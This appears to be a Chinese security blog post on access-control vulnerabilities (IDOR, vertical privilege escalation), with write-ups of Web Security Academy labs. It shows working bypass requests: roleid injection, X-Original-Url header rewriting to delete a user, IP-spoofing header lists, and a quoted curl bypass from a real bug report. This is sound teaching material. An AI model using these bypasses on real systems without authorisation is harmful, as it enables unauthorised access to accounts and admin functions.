





# [Access Control](https://www.raingray.com/archives/2176.html)

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [平行越权](#%E5%B9%B3%E8%A1%8C%E8%B6%8A%E6%9D%83)
-   [垂直越权](#%E5%9E%82%E7%9B%B4%E8%B6%8A%E6%9D%83)
-   [利用思路](#%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF)
-   [防御](#%E9%98%B2%E5%BE%A1)
-   [靶场练习](#%E9%9D%B6%E5%9C%BA%E7%BB%83%E4%B9%A0)
    -   [Web Security Academy](#Web+Security+Academy)
        -   [Lab: Unprotected admin functionality](#Lab%3A+Unprotected+admin+functionality)
        -   [Lab: Unprotected admin functionality with unpredictable URL](#Lab%3A+Unprotected+admin+functionality+with+unpredictable+URL)
        -   [Lab: User role controlled by request parameter](#Lab%3A+User+role+controlled+by+request+parameter)
        -   [Lab: User role can be modified in user profile](#Lab%3A+User+role+can+be+modified+in+user+profile)
        -   [Lab: URL-based access control can be circumvented](#Lab%3A+URL-based+access+control+can+be+circumvented)
        -   [Lab: Method-based access control can be circumvented⚒️](#Lab%3A+Method-based+access+control+can+be+circumvented%E2%9A%92%EF%B8%8F)

在看访问控制漏洞时需要先分清楚认证与授权概念及区别，认证（Authentication）证明你是本人，而授权（Authorization）认证后能做些什么事情。

访问控制是一个宽泛的概念，可以囊括认证与授权机制。像垂直越权、水平越权（再具体些任意用户密码也是水平越权的一种），这些漏洞我们都可以说是访问控制没做好。

威胁建模=看到功能点能反映出对应的威胁。威胁是危害的来源，风险的后果一定是损失（白帽子 1.6.2 章节）。

常见访问控制模型：

1.  Discretionary access control (DAC)
2.  Mandatory access control (MAC)
3.  Role-based access control (RBAC)

现阶段 WAF 还不能检测出逻辑漏洞。

攻击者能执行没有权限的操作这就是越权，这个漏洞对应着 OWASP 失效的访问控制。

越权分类：

-   水平（平行）越权：用户 A 能操作或查看用户 B 自己才能看的内容。
-   垂直越权：用户 A 能直接能执行管理员才能做的事。
-   上下文越权 (也称前后文越权)：用户必须通过 A 才能操作 B，能直接操作 B 就是越过上文直接到达下文，这就时上下文越权。

越权产生原因：你怎么只要用户查的是他自己的消息？是不是要在 SQL 上做个条件？

测试限制：

1.  创建两个测试账户自己验证
2.  越权获取不超过 5 条数据

## 平行越权

也叫 IDOR (Insecure direct object references)

平行越权及常见越权点

常见 ID 类型：

-   自增（有规律），123456
-   随机（无规律）：UUID、雪花算法、AES、Base64 编码 等等....

漏洞评级：取决于最短攻击路径能造成什么危害。

作业：foreach 执行取数据库数据，docx 反馈。

```php
<?php
// 导入数据库账户配置文件
require_once "../inc/config.php";

// 建立数据库连接
$connection = new PDO("mysql:host=" . DB_HOST . ";port=" . DB_PORT . ";dbname=" . DB_DATABASE_NAME, DB_USERNAME, DB_PASSWORD);

// 预编译 SQL 语句
$sqlQuery = "SELECT id, replyCommentID, username, update_date, content FROM `comment` WHERE username = :username";
$stmt = $connection->prepare($sqlQuery);

// 绑定参数
$stmt->bindParam(":username", $username);
$username = "raingray";

// 执行 SQL
$stmt->execute();

// foreach 遍历结果集数组取数据
$result = $stmt->fetchAll(PDO::FETCH_ASSOC);
$data = null;
foreach ($result as $key => $value) {
    print_r($value);
    $data .= "留言用户 ID：" . $value['id'] . PHP_EOL;
    $data .= "回复留言 ID：" . $value['replyCommentID'] . PHP_EOL;
    $data .= "回复留言用户名：" . $value['username'] . PHP_EOL;
    $data .= "留言更新时间：" . $value['update_date'] . PHP_EOL;
    $data .= "留言内容：" . $value['content'];
}

// 输出结果
echo "<pre><code>" . $data . "</code><pre>";
```

前端

```xml
Array
(
    [id] => 99
    [replyCommentID] => 
    [username] => raingray
    [update_date] => 2022-03-05 12:58:46
    [content] => testing
)
<pre><code>留言用户 ID：99
回复留言 ID：
回复留言用户名：raingray
留言更新时间：2022-03-05 12:58:46
留言内容：testing</code><pre>
```

## 垂直越权

垂直越权原理分析，涉及登录原理，和注册原理。

获取 POST 参数：THINKPHP 的 `input()` 和 PHP 官方的 `$_POST[]` 获取，都是返回一维数组。

PHP 方法介绍：`function_exists()` 检查 session\_start 方法是否存在。

案例：注册时 menber\_type 取的前端传递的参数，如果不等于 0 就是管理员，太过相信前端数据，为 1 则注册普通账户。

fofa 搜资产 title:"注册账户"

整个平行越权说白了就是见到 ID 就改。总要想着有没办法获取别人数据。垂直越权呢，则是看有没办法去使用管理员才能操作的功能，或者说是能够用当前用户没有权限操作的功能。程序员可能没考虑到这个鉴权操作，没做身份识别这个行为。

Missing Authorization check 中文常常称作未授权访问，是没有没有经过认证的操作。也可以归在垂直越权一类，或者简称访问控制失效，访问控制缺失也行，都一个意思。

漏洞产生原因：

1.  检查凭证但没有 return 退出后续逻辑执行，直接把内容输出，属于逻辑问题：
    
    ```bash
     // 授权检查
     if (!auth) {
         // 没有结束后续代码运行，导致未授权产生
         System.Out.println('认证失败');
     }
    
     // 输出数据
     ...
    ```
    
    正确修复应该是：
    
    ```bash
     // 授权检查
     if (!auth) {
         // 认证失败结束运行
         System.Out.println('认证失败');
         return;
     }
    
     // 输出数据
     ...
    ```
    
2.  压根没鉴权，直接输出内容。
    

挖掘方法：多注意响应内容有没敏感信息，不要靠肉眼，也要依靠插件，比如 HaE。

重定向常见情况：

1.  后端返回 JS location



解决方式是直接把 Response 跳转语句删除。

2.  后端 302 跳转


解决方式是将 302 状态码改为 200 就行，如果想正确点就也把状态文本 `Found` 改为 `OK`。或者直接把 `Location` Header 删了，浏览器还是会展示内容，不跳转。

上面是 HTTP 2 的用法，经过测试 HTTP 1.1 也是修改状态码就行，也可以把 `Moved Temporarily` 改为 `OK`：



## 利用思路

最好结合本文中的靶场总结出利用访问控制的操作方法清单。

小技巧，出处 [https://www.t00ls.net/thread-57810-1-5.html](https://www.t00ls.net/thread-57810-1-5.html)  
(1) 添加参数  
user/info  
user/info?id=123  
(2)hpp 参数污染  
user/info?id=1  
user/info?id=2&id=1  
user/info?id=2,2&id=1,1  
(3) 添加.json（如果它是用 ruby 构建的）  
user/id/1  
user/id/1.json  
(4) 测试过时的 api 的版本  
/v3/user/123  
/v2/user/123  
(5) 用数组包装 ID  
{"id":1}  
{"id":[2](https://www.raingray.com/usr/uploads/2022/05/526611247.png)}  
(6) 用 json 对象包装 ID  
{"id":1}  
{"id":{"id":1}}  
(7)json 参数污染  
{"id":2,"id":1}  
(8) 大小写替换  
/admin/info -> 401 未授权  
/ADMIN/info -> 200 ok  
常用技巧：  
可以使用通配符 (\*)，而不是 id  
如果有相同的 web 应用程序，可以测试下 app 的 api 端点  
如果端点的名称类似/api/users/info，可以修改为/api/admin/info  
用 GET/POST/PUT...替换请求方法

[https://twitter.com/ehsaan\_qazi/status/1460605234514857985](https://twitter.com/ehsaan_qazi/status/1460605234514857985)

## 防御

## 靶场练习

### Web Security Academy

垂直越权：

-   Lab: Unprotected admin functionality
-   Lab: Unprotected admin functionality with unpredictable URL
-   Lab: User role controlled by request parameter
-   Lab: User role can be modified in user profile
-   Lab: URL-based access control can be circumvented
-   Lab: Method-based access control can be circumvented

#### Lab: Unprotected admin functionality

题意：访问不受保护的后台删除 carlos 用户。

这里通过访问 robots.txt 就能得到后台地址，或者直接扫描目录也行。


直接访问即可进入后台。


#### Lab: Unprotected admin functionality with unpredictable URL

题意：有时候不受保护的某些功能可能藏在 JS 中，要多找。


直接访问无需凭证。

#### Lab: User role controlled by request parameter

题意：有时候存在风险的功能是在参数中。使用 wiener:peter 账户登录后，修改请求头 Cookie 凭证进入后台 /admin 删除用户 carlos。

未登录和使用普通账户登录后提示没权限。



在登录过程中会发现响应中的 Coookie 有个明显用户身份标识。



将 Admin=false 值修改为 true，则新增一个进入后台的链接。


不使用任何凭证成功访问 /admin。


PS：期间也试过将 /my-account?id=wiener 中 winner 改为其他用户名，无效。

#### Lab: User role can be modified in user profile

题意：使用 wiener:peter 登录账户，修改 roleid 为 2 访问 /admin 删除 carlos 账户。

登录后找半天也没发现 roleid，也试了试直接访问 /admin?roleid=2、/my-account?id=wiener&roleid=2 也没用，看答案才发现遗漏了更新功能。

在更新完用户会发现响应中 "roleid": 1，很明显说明当前用户角色 id 是 1。

```http
POST /my-account/change-email HTTP/2
Host: 0acf00bd035db1908547368d005200be.web-security-academy.net
Cookie: session=SyotYdCQuXZ7ZV8M7eF8Z7m6tdccKVMy
Content-Length: 26
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0acf00bd035db1908547368d005200be.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0acf00bd035db1908547368d005200be.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

{"email":"test@gmail.com"}


HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 118

{
  "username": "wiener",
  "email": "test@gmail.com",
  "apikey": "XGbylgqv9RntSnCtTmwVvGNyRcX92IYu",
  "roleid": 1
}
```

而尝试通过在修改邮箱处提交角色 id，发现邮箱和角色都成功修改。

```http
POST /my-account/change-email HTTP/2
Host: 0acf00bd035db1908547368d005200be.web-security-academy.net
Cookie: session=SyotYdCQuXZ7ZV8M7eF8Z7m6tdccKVMy
Content-Length: 38
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0acf00bd035db1908547368d005200be.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0acf00bd035db1908547368d005200be.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

{"email":"test@gmail.com","roleid": 2}


HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 118

{
  "username": "wiener",
  "email": "test@gmail.com",
  "apikey": "XGbylgqv9RntSnCtTmwVvGNyRcX92IYu",
  "roleid": 2
}
```

当角色 id 为 2 个人账户就出现了管理面板，成功垂直越权。

我想了想为啥没成功挖到这漏洞最重要的提醒：是要多尝试参数。当页面上和 JS 中都不存在要 Fuzz 下参数，我过于依赖明面上的参数，比如在输入框邮箱后点击 Update email 按钮自动调 jsonSubmit 方法提交请求。

```xml
<form class="login-form" name="email-change-form" onsubmit="jsonSubmit(this, event, &quot;/my-account/change-email&quot;)">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <button class="button" type="submit"> Update email </button>
</form>
```

jsonSubmit 来自页面上已经加载的 /resources/js/changeEmail.js。

```javascript
function jsonSubmit(formElement, e, changeEmailPath) {
    e.preventDefault();
    var object = {};
    var formData = new FormData(formElement);
    formData.forEach((value, key) => object[key] = value);
    var jsonData = JSON.stringify(object);
    var postRequest = new XMLHttpRequest();
    postRequest.open("POST", changeEmailPath, true);
    postRequest.withCredentials = true;
    postRequest.onload = function() {
        if (object["email"]) {
            window.location = postRequest.responseURL;
        }
    }
    postRequest.send(jsonData);
}
```

修改时没发现 JS 中带 roleid 参数，单纯认为不存在缺陷。没要考虑目标应用可能接收其他 POST 参数，而且没有运用 Fuzz 思维。

#### Lab: URL-based access control can be circumvented

题意：但与用户交互的前端系统主动设置禁止访问 /admin——可能是应用或者是网关禁止，但是应用使用某种框架编写的，支持 X-Original-URL 请求头。要求删除 carlos 用户完成实验。

一打开商店页面，右上角就有 Admin panel，访问 Path 是 /admin，回显 403 无法正常获取资源。

```http
GET /admin HTTP/2
Host: 0ace00ba04d9f87080cf3a9f0096000f.web-security-academy.net
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 15

"Access denied"
```

在资料中显示某些应用框架支持 X-Original-URL、X-Rewrite-URL 请求头，可以用于覆盖请求的 Path，从而绕过限制。去网上搜索发现是 PHP 框架存在问题居多，涉及 CVE-2018-14773。

> Many web frameworks such as Symfony 2.7.0 to 2.7.48, 2.8.0 to 2.8.43, 3.3.0 to 3.3.17, 3.4.0 to 3.4.13, 4.0.0 to 4.0.13 and 4.1.0 to 4.1.2 , zend-diactoros up to 1.8.4, zend-http up to 2.8.1, zend-feed up to 2.10.3 are affected by this security issue.
> 
> [URL rewrite vulnerability](https://www.acunetix.com/vulnerabilities/web/url-rewrite-vulnerability/)

PS：在查这两请求头时，发现并不是标准中的请求头，很久以前是拿 X- 这个前缀作为非标准请求前缀，后续 RFC 6648 说以后的非标准请求头不要带上前缀，因为现有请求头都没有前缀，避免成为标准时要把前缀删掉改变大家使用习惯，不适应。因此后面的非标准头都不带前缀。

怎么确认应用是否支持此请求头呢？WSTG 给出了验证逻辑。只要给出请求头随意填写资源，返回资源不存在就证明能够使用，而不支持则是访问的 Path。下面是验证结果。

应用支持 X-Original-Url。访问 Path /test 成功

```http
GET / HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /test
Cookie: session=x9mw4XjpTNYBibHo6uLv8pcQsQ5DOvf8
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

应用不支持 X-Original-Url。不去访问 Path /test 失败，而是访问 /。

```http
GET / HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Rewrite-Url: /test
Cookie: session=x9mw4XjpTNYBibHo6uLv8pcQsQ5DOvf8
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 10710

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>URL-based access control can be circumvented</title>
......
```

知道方法后，成功绕过访问控制。



但是页面上点删除用户提示没权限。

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /admin/delete?username=carlos
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a62003e03e972af80d7b7570094002e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 15

"Access denied"
```

尝试直接通过请求头传删除参数，提示需要 username 参数，这说明权限是够的，只是 X-Original-Url 不支持传递参数方式不对。

```http
GET / HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /admin/delete?username=carlos
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a62003e03e972af80d7b7570094002e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
Set-Cookie: session=z1JjyLhN7NAWQuc8hVoAhCiQcgWwe8qd; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'username'"
```

最终通过 Path 传参，请求头传递路径成功删除用户 carlos 完成 Lab。

```http
GET /?username=carlos HTTP/2
Host: 0a62003e03e972af80d7b7570094002e.web-security-academy.net
X-Original-Url: /admin/delete
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a62003e03e972af80d7b7570094002e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 302 Found
Location: /admin
Set-Cookie: session=zhzOVZTAS3Fnla4m62rUcOqOSehkWf1a; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```


在实战中还真搜到一个 hackerone 的案例，[Bypass front server restrictions and access to forbidden files and directories through X-Rewrite-Url/X-original-url header on account.mackeeper.com](https://hackerone.com/reports/737323)，300 美金，这漏洞搁国内铁定回复：无危害。😏

> Summary  
> Normally a client can't access /admin directory because of front nginx server which returns 403. But we can use X-Rewrite-Url or X-original-url because back server processes these headers and front server doesn't.
> 
> Steps to reproduce:  
> This request shows normal behavior  
> `curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' $'https://account.mackeeper.com/admin/login'`  
> and returns 403
> 
> Here you can see how we can bypass these restrictions  
> `curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' -H $'X-rewrite-url: admin/login' $'https://account.mackeeper.com/'`  
> and return login page

通过查询 WSTG 的例子，有时应用通过代码限制访问的 IP，一旦通过下面请求头取 IP，可主动给值绕过限制。

```bash
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Via: 1.0 fred, 1.1 127.0.0.1
```

#### Lab: Method-based access control can be circumvented⚒️

题意：商店提供了管理员账户 administrator:admin 用于修改用户角色，需要你登录 wiener:peter，通过切换请求方法的方式来提升到 admin 角色。

管理员登录能够通过 GET 获取 Admin pannel 面板内容（/admin），但 winner 用 GET 方法请求则返回 HTTP/2 401 Unauthorized。


尝试过 POST、PUT、PATCH 都是一样 401，想通过 OPTIONS 查看支持哪些方法也 401。这是靶场索性不用担心真存在漏洞某些请求方法有修改数据的可能，直接遍历一波方法，也还是 401，着实苦恼。

```bash
GET
POST
HEAD
CONNECT
PUT
TRACE
OPTIONS
DELETE
ACL
ARBITRARY
BASELINE-CONTROL
BCOPY
BDELETE
BIND
BMOVE
BPROPFIND
BPROPPATCH
CHECKIN
CHECKOUT
COPY
DEBUG
INDEX
LABEL
LINK
LOCK
MERGE
MKACTIVITY
MKCALENDAR
MKCOL
MKREDIRECTREF
MKWORKSPACE
MOVE
NOTIFY
ORDERPATCH
PATCH
POLL
PROPFIND
PROPPATCH
REBIND
REPORT
RPC_IN_DATA
RPC_OUT_DATA
SEARCH
SUBSCRIBE
TRACK
UNBIND
UNCHECKOUT
UNLINK
UNLOCK
UNSUBSCRIBE
UPDATE
UPDATEREDIRECTREF
VERSION-CONTROL
X-MS-ENUMATTS
```

最近更新：2023 年 10 月 11 日 09:20:45

发布时间：2020 年 01 月 20 日 02:12:00

### 摆哈儿龙门阵
